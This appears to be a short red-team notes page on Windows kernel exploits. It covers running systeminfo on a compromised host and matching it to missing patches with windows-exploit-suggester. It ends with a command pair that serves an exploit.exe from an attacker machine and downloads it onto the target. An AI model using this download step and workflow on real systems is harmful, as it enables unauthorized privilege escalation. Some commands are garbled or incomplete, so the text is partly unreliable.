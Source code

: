 
## What is Kernel Exploit

A kernel exploit is a type of vulnerability that allows an attacker to execute arbitrary code in the kernel mode of an operating system. The kernel is the central component of an operating system that manages the hardware and software resources of a computer. It is responsible for managing system resources such as memory, processors, and devices, and it provides the interface between the hardware and software of the system.

An attacker may attempt to exploit a vulnerability in the kernel of a Windows machine by checking the update version of the system and comparing it to a database to determine if it has been patched. If the system is not up to date with the latest patches, the attacker may attempt to use a known kernel exploit to gain elevated privileges on the system and potentially install malicious software or modify system settings.


## Commands

Once you have compromised a windows machine, simply check the system info

```
systeminfo
```

Copy all the output of the document and past it into a file.txt on your attacking machine (Linux)

Check patches & Vulnerabilities
```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2022-...xlss --systeminfo file.txt
```

Output:
	<font color="green">[+]</font> ---> Vulnerable
	<font color="blue">[*]</font> ---> Not Vulnerable

More information ---> [[Red Team/6 - Machine/3 - Active Directory/General/Tools/• Windows exploit suggester (NG)]]


Transfer the exploit selected
```
# Attacking Machine
python3 -m http.server

# Target Machine
-urlcache -f http://IP/exploit.exe newnameofexploit.exe
```